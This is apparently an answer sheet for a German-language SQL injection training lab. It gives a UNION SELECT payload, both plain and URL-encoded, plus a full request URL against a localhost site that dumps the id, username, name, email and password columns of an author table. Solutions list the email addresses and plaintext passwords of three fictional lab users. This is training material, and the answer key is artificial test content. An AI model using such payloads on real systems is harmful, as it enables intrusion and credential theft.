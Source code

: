 Verschaffen Sie sich Zugriff auf die Login-Daten der Autoren der Website.

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(CONCAT_WS(' - ', id, username, name, email, password)) FROM author),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(CONCAT_WS('%20-%20'%2C%20id%2C%20username%2C%20name%2C%20email%2C%20password))%20FROM%20author)%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(CONCAT_WS(%27%20-%20%27%2C%20id%2C%20username%2C%20name%2C%20email%2C%20password))%20FROM%20author)%2C0%3B--%20

<h6>14) Geben Sie die E-Mail Adresse und das Passwort von <i>modellbauklaus</i> an.</h6>

    >>E-Mail Adresse<<
    === klaus@rc-modellbau.de

    >>Passwort<<
    === RoterBaron

<h6>15) Geben Sie die E-Mail Adresse und das Passwort von <i>rüdiger</i> an.</h6>

    >>E-Mail Adresse<<
    === rüdiger@hot-ballon.de

    >>Passwort<<
    === 1profi

<h6>16) Geben Sie die E-Mail Adresse und das Passwort von <i>paulaner</i> an.</h6>

    >>E-Mail Adresse<<
    === paulaner@truestory.com

    >>Passwort<<
    === fakestory